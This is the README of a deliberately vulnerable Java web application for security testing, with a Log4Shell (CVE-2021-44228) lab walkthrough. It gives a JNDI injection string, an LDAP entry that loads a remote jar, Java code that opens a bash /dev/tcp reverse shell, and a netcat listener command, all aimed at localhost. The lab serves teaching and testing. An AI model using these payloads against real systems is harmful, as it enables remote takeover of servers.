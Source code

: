 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application (v1.5.0 onward which includes the vulnerable version of log4j) using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
cn: Java Class
sn: Class
uid: java-ref
```

The `URLClassLoader` will lookup the `uk.ac.jisc.cybersec.rce.RceReverseShellExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceReverseShellExploit`, triggering the static method shown below. 

The malicious code attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To complete the attack and establish a remote network connection to the compromised web-server, you, as the *bad-actor*, must start a listener on port `8083` on `localhost` (in a real-world attack, this would be a remote server). For example, using `netcat`:


```bash
nc -l 8083
```

Once the connection is established, you can run bash commands inside the listener you started above e.g. type `ls` into the terminal window running `netcat`.


#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 
